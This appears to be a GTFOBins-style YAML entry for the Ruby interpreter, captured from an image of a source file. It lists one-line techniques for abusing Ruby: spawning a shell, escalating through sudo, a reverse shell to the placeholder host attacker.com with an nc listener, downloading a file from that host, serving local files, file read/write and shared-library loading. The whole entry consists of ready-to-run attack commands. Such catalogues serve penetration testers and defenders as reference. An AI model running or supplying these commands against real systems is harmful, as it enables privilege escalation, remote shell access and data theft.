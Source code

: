 ```yaml
---
functions:
  execute-interactive:
  - code: ruby -e 'exec "/bin/sh"'
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  upload:
  - description: Serve files in the local folder running an HTTP server. This requires
      version 1.9.2 or later.
    code: |
      export LPORT=8888
      ruby -run -e httpd . -p $LPORT
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export RFILE=/file_to_get
      export LFILE=file_to_save
      ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  file-write:
  - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
  file-read:
  - code: ruby -e 'puts File.read("file_to_read")'
  load-library:
  - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo-enabled:
  - code: sudo ruby -e 'exec "/bin/sh"'
---
```

